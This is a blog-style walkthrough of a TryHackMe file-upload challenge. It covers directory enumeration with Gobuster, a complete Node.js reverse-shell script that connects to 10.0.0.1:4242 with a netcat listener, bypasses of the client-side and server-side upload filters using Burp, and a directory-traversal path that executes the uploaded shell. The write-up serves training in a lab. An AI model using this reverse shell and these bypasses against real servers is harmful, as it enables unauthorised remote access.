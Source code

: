 +++
title = 'THM: Upload Vulnerabilities Challenge'
date = 2024-08-16T08:46:50+03:00
draft = false
+++

## Task

Head over to jewel.uploadvulns.thm.

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/. Bear in mind that this challenge will be an accumulation of everything you've learnt so far, so there may be multiple filters to bypass. The attached wordlist might help. Also remember that not all webservers have a PHP backend...

## Enumeration

First, I tried with a normal .jpg image. The image was uploaded succesfully, but the question is where. To be honest a better way would have been to inspect this with Burp to see the request-response flow in simultaneously. 

The challenge included a wordlist (AAA-ZZZ three-letter combinations) that I reckon to be useful in finding the file. So I want to find the file that I just uploaded so that I know where my shell script can be found later on. Let's find out with Gobuster.

````
gobuster dir -u http://jewel.uploadvulns.thm -w uploadvulns.txt -x .jpg
````

While Gobuster ran I checked on the webpage source code. There is reference to a static file but nothing more. Gobuster scan didn't provide anything at this point. Most likely because the uploaded image is in a folder and I should enumerate the structure of the web page (this is an early morning and I haven't had coffee yet 😅). 

````
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
````

Gobuster scan found the following directories:

````
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
````

Running the previous Gobuster command on "content" folder.

````
gobuster dir -u http://jewel.uploadvulns.thm/content/ -w uploadvulns.txt -x .jpg
````

The results show five files stored in the content folder.

````
/ABH.jpg (Status: 200)
/DOB.jpg (Status: 200)
/LKQ.jpg (Status: 200)
/SAD.jpg (Status: 200)
/UAD.jpg (Status: 200)
````

It seems that the application uses the wordlist provided in the task files to encode the uploaded images by rewriting the filename. The original file that I uploaded is called "DOB.jpg" now. 

## Reverse Shell Upload

Next step is to upload a shell script and possibly bypass client and server side filters. 

Checking on the client side filters reveals that there are multiple conditions to match before the file is accepted by the application:
- The upload is controlled by upload.js which checks
- The file size
- That the file's magic number is ÿØÿ which links to jpg
- And the file extension should be either jpg or jpeg. 

At this point the type of web server backend is unknown. It could be PHP or something else. That needs to be known to choose the right shell script. Browsing to /admin and enumerating the page with Wappalyzer shows that the we're dealing with Nginx 1.14.0 on Ubuntu and the language is NodeJS.

### RSHELL Script

The reverse shell script for NodeJS. 

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs 

````
# The contents of shell.js

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
````

Start a listener.

````
nc -nvlp 4242
````

### Evade Client-side Filters

Intercept the file upload with Burp after removing ^js$| from Settings > Tools > Proxy > Request interception rules. This way Burp will intercept upload.js and we can modify it on the fly. At this point clearing the browser cache is a wonderful idea. After that refresh the page. 

Monitor the traffic flow in Burp and one request at a time forward them until you reach upload.js. At that point right click and click "Do Intercept > Response to this request".

`````
# Remove client-side filter from upload.js and after that let it pass.
//Check File Size
if (event.target.result.length > 50 * 8 * 1024){
    setResponseMsg("File too big", "red");			
    return;
}
//Check Magic Number
if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
    setResponseMsg("Invalid file format", "red");
    return;	
}
//Check File Extension
const extension = fileBox.name.split(".")[1].toLowerCase();
if (extension != "jpg" && extension != "jpeg"){
    setResponseMsg("Invalid file format", "red");
    return;
}
`````

### Evade Server-side Filters

The file type is set to application/x-javascript. Changing that to image/jpeg and the file upload succeeds. 

### Find RSHELL Script

Run the same .jpg file scan with Gobuster again to find the shell script.

### Execute RSHELL Script

The shell script can't be executed just by browsing to the URL. Instead the admin page seems to provide means to do that. However, it says clearly that it runs commands from /modules directory and we know our script is in /content folder.

````
# Traverse directories and execute reverse shell script.
../content/OFA.jpg
````

The flag can be found from /var/www.

## Lessons Learned

- Methodology matters the most. Otherwise this becomes frustrating quick. 
- Keeping live notes helps to understand the status and the progress.
- Enumerating the structure and technology of the web application is key in file uploads.
- Remember to intercept .js requests and responses to disable client-side filtering easily. 
- This wasn't easy for me. But staying organized helped tremendeously. 